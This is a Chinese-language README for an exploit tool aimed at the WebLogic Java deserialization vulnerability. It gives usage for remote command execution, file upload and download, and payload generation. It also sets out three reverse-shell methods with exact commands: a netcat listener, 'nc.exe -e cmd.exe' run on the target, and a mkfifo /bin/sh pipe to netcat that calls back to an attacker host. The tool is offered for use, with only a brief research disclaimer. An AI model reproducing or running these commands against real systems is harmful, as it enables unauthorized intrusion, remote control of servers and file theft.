

# weblogic unserialize exploit

**java反序列化漏洞的weblogic exploit命令回显exp**



### 1.依赖组件
+ python 2.7
+ java

### 2. 程序说明
+ exploit方法来源于Freebuf的”Java反序列化漏洞之weblogic本地利用实现篇”，基于rebeyond大牛的研究和反编译WebLogic_EXP.jar实现的。

+ 与rebeyond的方法相比，只提取了WebLogic_EXP.jar中用到的少数几个java class，使用python脚本来实现exploit。

### 3.使用说明 

+ python exp:

```bash
weblogic.py [-h] -u HOST -p PORT -os {win,linux} -t {verify,exploit}
                   [--silent]

optional arguments:
  -h, --help            show this help message and exit
  -u HOST, --host HOST  weblogic host
  -p PORT, --port PORT  host port
  -os {win,linux}, --os_type {win,linux}
                        os type
  -t {verify,exploit,reverse_shell}, --exp_type {verify,exploit,reverse_shell}
                        exploit type; verify to check the vul,the exploit mode
                        can run cmd and get the result
                        reverse_shell can get shell
  --silent              don't show the verbose message
 
 verify :只执行一次whoami命令，验证是否漏洞存在
 exploit:远程命令执行模式，运行putfile、getfile和命令远程运行和回显
 reverse_shell:反弹shell（需要设定--LHOS和--LPORT参数）
 --LHOST LHOST         reverse shell to the host ip
 --LPORT LPORT         reverse shell to host port
 
 exploit模式下可以进行文件的下传和下载：	
 		上传文件：putfile [localfile] [remotefile]
	    下载文件：getfile [remotefile] [localfile]
		
```
+ 远程执行命令是通过java的RMI来实现的

```bash
java -jar shellApp.jar [host] [port] [os] [cmd]
	OS:win|linux
	CMD: putfile [localfile] [remotefile]
		 getfile [remotefile] [localfile]
		 [windows or linux cmd]
```

+ 程序在windows/linux/mac下测试通过，weblogic版本为10.3.6。

### 4.payload_bin说明

+ payload_bin下面的各种payload是用于向weblogic通过t3协议发送的反序列化内容，由通过执行genPayload.class产生的，执行命令为：
	
		java -jar genPayload.jar [OS] [Payload_Type]
			OS:win|linux
			Payload_Type:upload_inst|inst|upload_uninst|uninst|delete|upload_reverse|reverse
		
### 5.反弹shell
+ 方法一：

```bash
1、在本机上监听，等待shell反弹
		
		nc -l 8080
		
2、命令行反弹shell
		
		./weblogic.py -u 192.168.56.104 -p 7001 -os win -t reverse_shell --LHOST 192.168.56.101 --LPORT 8080
		
		--LHOST与--LPORT分别是要反弹获得shell的主机地址和端口

本方法是采用t3协议直接将java程序发包到服务器上后直接反弹shell，是最方便的一种。感谢Rstar提供的实现，我稍做了修改以匹配exp的实现。

```

+ 方法二：

```bash

1、用weblogic.py exploit到weblogic服务器

2、上传payload_bin目录下的的nc.exe（windows主机）;或修改reverse_shell.py的LHOST和LPORT（linux主机）后上传到服务器。

		exploit>putfile payload_bin/nc.exe c:\windows\temp\nc.exe (windows主机）
		exploit>putfile payload_bin/reverse_shell.py /tmp/rs.py (linux主机)

3、在本机上监听，等待shell反弹

		nc -l 8080
		
4、通过exploit执行远程命令反弹shell

		exploit>c:\windows\temp\nc.exe -e cmd.exe remote_ip 8080 (windows主机）
		exploit>python /tmp/rs.py (linux主机)
		
```
+ 方法三：（linux）

```bash
1、在本机上监听，等待shell反弹
		
		nc -l 8080
		
2、通过exploit执行远程命令反弹shell
		
		exploit>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc remote_ip 8080 >/tmp/f


```
	

### 6.其它

+ 本程序只用于技术研究和个人使用，来源于网络、分享于网络，欢迎各位大牛继续完善

+ hancool@163.com 2015.12
